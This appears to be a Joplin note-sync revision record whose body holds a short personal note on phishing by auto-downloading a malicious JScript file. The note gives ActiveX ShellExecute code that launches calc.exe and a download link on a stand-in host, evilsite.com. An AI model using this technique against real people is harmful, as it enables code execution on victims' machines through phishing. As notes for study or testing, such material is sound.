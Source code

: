 id: b917fe455bbb418b8d3dde6cabca4ede
parent_id: 
item_type: 1
item_id: 686c534ddeb54422a0d55e8d0840eb8f
item_updated_time: 1646016694005
title_diff: "[{\"diffs\":[[1,\"1c1437c21bed4e6e80fa19dd4590b45f\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":32}]"
body_diff: "[{\"diffs\":[[1,\"Phishing\\\r\\\n\\\r\\\nAuto download a malicious JS File\\\r\\\n\\\r\\\nThe JS file Code\\\r\\\n\\\r\\\n```\\\r\\\nvar oShell = new ActiveXObject(\\\"Shell.Application\\\");\\\r\\\nvar commandtoRun = \\\"C:\\\\\\\\Windows\\\\\\\\system32\\\\\\\\calc.exe\\\";\\\r\\\noShell.ShellExecute(commandtoRun,\\\"\\\",\\\"\\\",\\\"open\\\",\\\"1\\\");\\\r\\\n```\\\r\\\n\\\r\\\nThe link\\\r\\\n\\\r\\\n> http://evilsite.com/file.js\\\r\\\n\\\r\\\nid: 1c1437c21bed4e6e80fa19dd4590b45f\\\r\\\nparent_id: 00b28c92e0a5415cbf7110cda063173b\\\r\\\ncreated_time: 2022-01-26T15:43:47.942Z\\\r\\\nupdated_time: 2022-01-26T15:44:38.969Z\\\r\\\nis_conflict: 0\\\r\\\nlatitude: 0.00000000\\\r\\\nlongitude: 0.00000000\\\r\\\naltitude: 0.0000\\\r\\\nauthor: \\\r\\\nsource_url: \\\r\\\nis_todo: 0\\\r\\\ntodo_due: 0\\\r\\\ntodo_completed: 0\\\r\\\nsource: joplin-desktop\\\r\\\nsource_application: net.cozic.joplin-desktop\\\r\\\napplication_data: \\\r\\\norder: 0\\\r\\\nuser_created_time: 2022-01-26T15:43:47.942Z\\\r\\\nuser_updated_time: 2022-01-26T15:44:38.969Z\\\r\\\nencryption_cipher_text: \\\r\\\nencryption_applied: 0\\\r\\\nmarkup_language: 1\\\r\\\nis_shared: 0\\\r\\\nshare_id: \\\r\\\nconflict_original_id: \\\r\\\nmaster_key_id: \\\r\\\ntype_: 1\"]],\"start1\":0,\"start2\":0,\"length1\":0,\"length2\":932}]"
metadata_diff: {"new":{"id":"686c534ddeb54422a0d55e8d0840eb8f","parent_id":"fb73d1d872ce4ee6ab184091f1e4c67b","latitude":"0.00000000","longitude":"0.00000000","altitude":"0.0000","author":"","source_url":"","is_todo":0,"todo_due":0,"todo_completed":0,"source":"joplin-desktop","source_application":"net.cozic.joplin-desktop","application_data":"","order":1646016693995,"markup_language":1,"is_shared":0,"share_id":"","conflict_original_id":"","master_key_id":""},"deleted":[]}
encryption_cipher_text: 
encryption_applied: 0
updated_time: 2022-02-28T02:54:21.951Z
created_time: 2022-02-28T02:54:21.951Z
type_: 13